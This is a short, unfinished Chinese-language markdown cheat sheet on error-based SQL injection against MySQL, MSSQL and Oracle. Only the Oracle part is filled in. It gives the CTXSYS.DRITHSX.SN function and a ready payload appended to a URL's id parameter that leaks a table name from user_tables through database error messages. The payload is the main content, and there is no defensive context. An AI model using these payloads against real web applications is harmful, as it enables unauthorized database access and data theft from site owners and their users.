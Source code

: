 # 三大数据库报错注入(未完成)

## mysql
### 函数
```sql

```
## mssql
## oracle
### 函数
```sql
CTXSYS.DRITHSX.SN(user,(select col1 from tb1 where rownum=1))
```
### 利用
```sql
https://api.xxx.com/news?id=1' 
where 1=CTXSYS.DRITHSX.SN(123456,(select table_name from user_tables where rownum=1))
-- a
```